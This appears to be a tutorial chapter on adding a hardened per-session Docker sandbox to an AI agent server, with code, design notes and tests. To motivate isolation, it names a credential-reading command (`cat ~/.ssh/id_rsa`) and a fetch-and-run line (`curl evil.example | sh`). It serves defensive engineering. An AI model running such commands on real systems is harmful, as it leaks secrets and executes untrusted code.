

# 24 Part 5 · Docker sandbox

**Goal:** Run each session's tools inside a container.

**Builds on:** [23 Limits](23-limits.md) · **Next:** [25 Web client](25-web-client.md)

## Where we are



*This chapter adds the Docker sandbox to the server app (marked). The library does not change.*

Big picture of Part 5: [part-5-system](part-5-system.md).

Code in this chapter (commit `2fc2776`):

- `apps/server/src/simp_server/server.py` — `Sandbox`, `LocalSandbox`, `check_sandbox`, `load_settings`
- `apps/server/src/simp_server/sandboxes/docker.py` — `DockerSandbox`, `DockerEnv`, `build_image`
- `apps/server/sandboxes/Dockerfile` — the sandbox image
- `packages/simp_agent/src/simp_agent/testing/env_conformance.py` — `EnvConformance`
- `apps/server/tests/test_docker_sandbox.py` — the Docker sandbox tests

## Problem

Picture a shared server. Alice and Bob both log in ([22](22-store-auth.md)). Each of them can open many sessions ([20](20-server-run.md)), and each session is one agent with its own folder. Alice asks her agent: "write `fizzbuzz.py` and run it". The agent calls `bash` with `python fizzbuzz.py`. Where does that command run, and what else can it touch?

The `bash` tool ([10](10-coding-tools.md)) runs any shell command. Today it runs on the server machine itself, through `LocalEnv` ([09](09-exec-env.md)). The server's default sandbox is `LocalSandbox` in `apps/server/src/simp_server/server.py`. Its own docstring says it plainly:

```python
class LocalSandbox:
    """A per-session dir under the data dir; LocalEnv rooted there. Not isolation: DockerSandbox replaces it."""
```

`LocalEnv` with a root stops file tools from leaving the folder. But `bash` is not a file tool. A command like `cat ~/.ssh/id_rsa` or `curl evil.example | sh` runs as the server user. It can read other users' work, use the network, and fill the machine with processes.

For one person on their own laptop, that is fine. For several users, it is not. We need each session's commands to run in a closed box: a **[sandbox](glossary.md#sandbox)**.

## Naive version

The first idea: just put `docker run` in front of every command.

Naive sketch (not in the repo):

```text
CLASS NaiveDockerEnv extends LocalEnv:
    FUNCTION exec(command, cwd, timeout, cancel, on_output):
        START "docker run --rm -v <root>:/work -w /work python:3.13-slim sh -c <command>"
        WAIT for output, at most timeout seconds
        IF timeout:
            kill the process          // kills the docker CLI only, not the command
            RETURN (none, "")
        RETURN (exit code, output)

main:
    env = NaiveDockerEnv("/tmp/ws")
    PRINT env.exec("python fizzbuzz.py", ".", 30, new cancel event)
```

Key idea: one `docker run` per command. Limit: slow, not hardened, timeout does not stop the command.

It runs `python fizzbuzz.py` and prints the output. But it breaks in many ways:

1. **Slow.** A new [container](glossary.md#container) starts for every command. That costs time on each `bash` call.
2. **Not hardened.** The container runs as root, has full network, no memory or process limit. A fork bomb still hurts the host.
3. **Timeout does not kill the command.** `proc.kill()` kills the `docker` program on the host. The command inside the container may keep running.
4. **`cwd` is wrong.** The tool passes a host path as `cwd`. Here it is ignored; we always use `/work`.
5. **No cancel, no streaming.** `cancel` is never checked, and `on_output` is never called. The user sees nothing until the end.
6. **No life cycle.** Nobody knows when to start or stop anything per session.

## Step by step: from naive to real

**Step 1 — start the container once.** Run `sleep infinity` in a named container, then send each command with `docker exec`:

```text
RUN docker run -d --name <name> <image> sleep infinity   // once per session
// later, for each command:
RUN docker exec <name> sh -c "<command>"
```

Why: one start per session, not per command. This fixes "slow".

**Step 2 — harden the container.** Add flags to the same `docker run`:

```python
"--user", "1000:1000", "--network", "none", "--pids-limit", "256", "--memory", "1g",
"--read-only", "--cap-drop", "ALL", "--security-opt", "no-new-privileges",
```

Why: each flag closes one hole (root, network, fork bomb, memory, writes, extra powers).

**Step 3 — map `cwd`.** Turn the host path into a path under `/work` (code in [DockerEnv](#dockerenv-files-on-the-host-commands-in-the-box) below).

Why: the container only knows `/work`. The root check from `LocalEnv` still applies.

**Step 4 — kill the whole group.** Start the command with `setsid`, print its pid first, and on timeout or cancel kill `-<pid>` inside the container (worked example in [DockerEnv](#dockerenv-files-on-the-host-commands-in-the-box) below).

Why: killing the host `docker` program does not stop the command in the box. This fixes timeout and cancel. We also read output in chunks and call `on_output`, as `LocalEnv.exec` does.

**Step 5 — a life cycle.** Wrap steps 1 to 4 in `DockerSandbox` with `open`, `close`, `remove`. Then plug it into the server's **[sandbox slot](glossary.md#sandbox-slot)**: a place in the server settings that says which class gives each session its env.

Why: now the server knows when to start and stop a container for each session. Next we read the real code.

## Real design

The real code has two parts:

- The sandbox slot in the server: "give me an env for this session".
- `DockerSandbox` in `apps/server/src/simp_server/sandboxes/docker.py`: one long-lived, hardened container per session, plus `DockerEnv`, the env the tools use.

### The sandbox slot

The server does not know about Docker. It knows a small protocol, `Sandbox`, in `apps/server/src/simp_server/server.py`:

```python
class Sandbox(Protocol):
    async def open(self, session_id: str) -> ExecutionEnv: ...

    async def close(self, session_id: str) -> None: ...

    async def remove(self, session_id: str) -> None: ...  # delete the workspace files (session deleted)
```

- `open` returns an `ExecutionEnv` ([09](09-exec-env.md)). The tools only see this env.
- `close` frees running resources. Files stay.
- `remove` deletes the files when the session is deleted.

The class to use is picked from settings, like the store and auth slots ([22](22-store-auth.md)):

```python
DEFAULT_PLUGINS = {"sandbox": "simp_server.server:LocalSandbox", "store": "simp_server.store:SqliteStore",
                   "auth": "simp_server.server:StaticTokenAuth"}
```

In `load_settings()`, the env var `SIMP_SANDBOX=docker` switches the default:

```python
docker = {"sandbox": "simp_server.sandboxes.docker:DockerSandbox"} if os.environ.get("SIMP_SANDBOX") == "docker" else {}
```

The session manager uses the slot at three moments:

- When it loads a session: `env = await self.sandbox.open(row["sandbox_ref"])`.
- When it evicts an idle session ([23](23-limits.md)): `await self.sandbox.close(run.ref)`. Its docstring says: "Free RAM and the container; files and log stay".
- On shutdown: `close_all()` if the sandbox has it.

There is also a safety check, `check_sandbox()`. If the server has more than one user and still uses `LocalSandbox`, it refuses with a message, unless you set `allow_local_sandbox = true`:

```python
def check_sandbox(settings: dict, n_users: int) -> str | None:
    """LocalSandbox runs tools on this machine as the server user: fine for one person, not for several."""
```

**Why a slot?** The server code stays the same for laptop use and shared use. Tests can use `LocalSandbox` without Docker.

### The image

`apps/server/sandboxes/Dockerfile` builds the image `simp-sandbox:latest`:

```dockerfile
FROM python:3.13-slim
RUN apt-get update && apt-get install -y --no-install-recommends ripgrep fd-find git coreutils procps \
    && ln -s /usr/bin/fdfind /usr/local/bin/fd && rm -rf /var/lib/apt/lists/* \
    && useradd -u 1000 -m -s /bin/sh sandbox && mkdir /work && chown 1000:1000 /work
USER 1000:1000
WORKDIR /work
CMD ["sleep", "infinity"]
```

It has Python, plus the tools the agent likes to call (`rg`, `fd`, `git`). It has a normal user with id 1000 and an empty `/work`. Build it once with:

```sh
simp-server build-sandbox
```

This calls `build_image()`, which is just `docker build -t simp-sandbox:latest apps/server/sandboxes`.

### DockerSandbox.open: one hardened container per session

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerSandbox.open`

```text
FUNCTION open(session_id):
    IF session_id does not match [A-Za-z0-9_-]{1,64}:
        RAISE ValueError("bad session id")
    IF session_id already in envs:
        RETURN envs[session_id]          // reuse: one container per session
    ...
    name = "simp-" + session_id
    RUN docker rm -f name                // leftover from a crash
    RUN docker run -d --name name
        --user 1000:1000 --network <network>
        --pids-limit <pids_limit> --memory <memory> --cpus <cpus>
        --read-only --tmpfs /tmp:rw,nosuid,nodev,size=64m
        --security-opt no-new-privileges --cap-drop ALL
        -v <root>:/work -w /work <image> sleep infinity
```

Step by step:

- **Check the id.** The id becomes a folder name and a container name. A bad id like `../x` raises `ValueError`.
- **Reuse.** If the session is already open, return the same env. One container per session, not per command.
- **Clean up a crash.** If the server died before, an old container with the same name may still exist. `docker rm -f` removes it first.
- **Start once, keep alive.** The container runs `sleep infinity`. Commands are sent into it later with `docker exec`. This fixes the "slow" problem of the naive version.

Each flag closes one hole. This is called **[hardening](glossary.md#hardening)**:

| Flag | What it stops |
|---|---|
| `--user 1000:1000` | Running as root. |
| `--network none` (default) | Any network use. No downloads, no leaks. |
| `--pids-limit 256` | Fork bombs. |
| `--memory 1g`, `--cpus 1` | One session eating the whole machine. |
| `--read-only` + `--tmpfs /tmp` | Changing the system files. Only `/work` and `/tmp` are writable. |
| `--cap-drop ALL`, `no-new-privileges` | Gaining extra Linux powers. |

All these values come from the `[sandbox]` table in settings, with safe defaults:

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerSandbox.__init__`

```text
s = settings["sandbox"] or empty
workspaces_dir = s.workspaces_dir  OR  <data_dir>/workspaces
image   = s.image   OR IMAGE
network = s.network OR "none"
memory  = s.memory  OR "1g"
cpus    = s.cpus    OR "1"
pids_limit = s.pids_limit OR 256
```

The session folder `workspaces_dir/<session_id>` is a **[bind mount](glossary.md#bind-mount)** at `/work`. So a file the agent writes is a normal file on the host, and also visible inside the container.

### DockerEnv: files on the host, commands in the box

`DockerEnv` is a subclass of `LocalEnv`:

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerEnv`

```text
CLASS DockerEnv extends LocalEnv:
    FUNCTION init(root, container):
        set up LocalEnv with root      // file tools stay on the host
        remember container name        // only exec uses it
```

The module docstring explains the split: "File ops run on the host (LocalEnv with root containment) on a dir bind-mounted at /work; only exec goes through `docker exec`."

So `read`, `write`, `edit`, `ls` use the same code and the same root check as `LocalEnv` ([09](09-exec-env.md)). They are fast and already tested. Only `exec` is new.

**Mapping `cwd`.** Tools pass a host path as `cwd`. The container only knows `/work`. `_cwd()` changes one into the other, and the root check from `_path()` still applies:

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerEnv._cwd`

```text
FUNCTION _cwd(cwd):
    rel = _path(cwd) relative to root    // _path does the root check
    RETURN "/work/" + rel
```

**Running a command.** `exec` uses `docker exec` with a small shell trick:

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerEnv.exec`

```text
proc = START docker exec -w _cwd(cwd) <container>
           setsid -w sh -c "echo $$; exec sh -c <command> 2>&1"
pid = first line of proc output     // the group leader's pid
```

- `setsid` makes the command the leader of a new **[process group](glossary.md#process-group-kill)**.
- The first line it prints is its own pid (`echo $$`). We read that line first and keep it.
- `2>&1` is inside the container. The comment says why: Docker sends stderr as a separate stream, and it could arrive before the pid line.

The rest is the same pump loop as `LocalEnv.exec`: read chunks, call `on_output`, wait for done, cancel, or timeout. The difference is the kill:

```text
IF command did not finish (timeout or cancel):
    IF pid is a number:
        RUN docker exec <container> kill -9 -- -<pid>   // minus: kill the whole group in the box
    IF host docker exec process still alive:
        kill it
    WAIT for the reader to end
    RETURN (none, all output so far)
```

`kill -9 -<pid>` (note the minus) kills the whole process group **inside** the container. This fixes problem 3 of the naive version: a timeout or a cancel really stops `sleep 30 &` and its children. Then the host `docker exec` process is killed too, if it is still alive.

**Worked example.** The agent runs `python fizzbuzz.py; sleep 30` with a 5 second timeout.

1. Output starts: `4711\n1\n2\nFizz\n…`. The first line, `4711`, is the pid of the `setsid` shell. We keep it and do not show it.
2. `on_output` gets `1`, `2`, `Fizz`, …
3. Then `sleep 30` runs. After 5 seconds the timeout hits.
4. We run `docker exec <container> kill -9 -- -4711`. Group 4711 (the shell and `sleep`) dies inside the box.
5. `exec` returns `(None, "1\n2\nFizz\n…")`.

Without the minus (`kill -9 4711`) only the shell would die, and `sleep 30` would keep running.

### close, remove, close_all

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerSandbox.close`

```text
FUNCTION close(session_id):
    env = remove session_id from envs
    IF env exists:
        RUN docker rm -f env.container   // folder stays on host
```

- `close` removes the container. The folder stays. Next `open` starts a new container on the same folder, so `fizzbuzz.py` is still there.
- `remove` deletes the folder (new and old layout). It checks the id with the same regex first.
- `close_all` closes every open session at once with `asyncio.gather`. The server calls it on shutdown, so no containers are left running.

### Passing EnvConformance

How do we know `DockerEnv` behaves like `LocalEnv`? We do not write new tests for each method. We reuse **`EnvConformance`** from [09](09-exec-env.md) (`packages/simp_agent/src/simp_agent/testing/env_conformance.py`). It is a test class with checks for files, listing, containment, exit codes, output streaming, `cwd`, timeout and cancel. You subclass it and give a `make_env` fixture.

One detail in it was made for Docker:

```python
self.root = tmp_path / f"root-{uuid.uuid4().hex[:8]}"  # unique: Docker names containers after it
```

Each test gets a unique folder name, so each test gets its own container name.

## Test

`apps/server/tests/test_docker_sandbox.py` has three parts. The whole file is skipped when Docker is missing (`_docker_ok()`); if the image is missing, it builds it first.

The conformance part is tiny:

```python
class TestDockerEnvConformance(EnvConformance):
    @pytest.fixture
    def make_env(self, sandbox, tmp_path):
        async def make(root):
            sandbox.workspaces_dir = root.parent
            return await sandbox.open(root.name)
        return make
```

It points `workspaces_dir` at the test's temp folder, and uses the folder name as the session id. Now every `EnvConformance` test runs against a real container.

The test we show is `test_hardening` in `apps/server/tests/test_docker_sandbox.py`. It checks each hardening flag from inside the box:

```python
async def test_hardening(sandbox, tmp_path):
    env = await sandbox.open(f"s1-{uuid.uuid4().hex[:8]}")
    run = lambda cmd: env.exec(cmd, ".", 30, asyncio.Event())
    assert (await run("id -u"))[1].strip() == "1000"
    code, out = await run("python -c 'import socket; socket.create_connection((\"1.1.1.1\", 53), timeout=3)'")
    assert code != 0
    assert (await run("touch /etc/x"))[0] != 0  # read-only rootfs
    assert (await run("touch /tmp/x && touch /work/x"))[0] == 0
    assert (await run("grep CapEff /proc/self/status"))[1].split()[1] == "0000000000000000"  # no caps
    code, out = await run("for i in $(seq 400); do sleep 5 & done; wait")
    assert "fork" in out.lower() or "resource" in out.lower()  # pids limit hit
```

Read it line by line:

- The user id is 1000, not root.
- A network connection fails.
- `/etc` cannot be written. `/tmp` and `/work` can.
- The effective capabilities are all zero.
- Starting 400 processes fails, because the pids limit is 256.

The last test, `test_open_close`, checks that `open` twice gives the same env, that `../x` raises `ValueError`, and that after `close` the container is gone.

Run it (needs Docker):

```sh
uv run pytest apps/server/tests/test_docker_sandbox.py -q
```

## Why this way

> **One long-lived container per session; files on the host, only `exec` in the box.** Starting the container once in `open()` makes each `bash` call fast. Keeping file tools on the host reuses `LocalEnv` and its root check, so only `exec` is new code, and `EnvConformance` proves both envs act the same. The `Sandbox` slot keeps Docker out of the server core: one person can use `LocalSandbox`, a shared server switches with one setting. The cost: you need Docker and a built image, and a container uses memory while the session is open. That is why idle sessions are closed ([23](23-limits.md)).

## Exercises

1. In the Step 2 flags, change `--network none` to the default network. Which line of `test_hardening` would fail, and why?
2. Open a session, write a file, call `close`, then `open` the same id again. Is the file still there? Why?

## Recap

- The server has a `Sandbox` slot: `open`, `close`, `remove`. `LocalSandbox` is the default and gives no isolation.
- `check_sandbox()` refuses many users on `LocalSandbox` unless you allow it.
- `DockerSandbox.open()` starts one hardened container per session: user 1000, no network, limits on pids, memory and CPU, read-only root, no capabilities.
- The session folder is bind-mounted at `/work`. File tools run on the host; `DockerEnv.exec` uses `docker exec`.
- `setsid` + pid line lets timeout and cancel kill the whole process group inside the container.
- `TestDockerEnvConformance` reuses `EnvConformance`; `test_hardening` proves each flag works.

**Builds on:** [23 Limits](23-limits.md) · **Next:** [25 Web client](25-web-client.md)

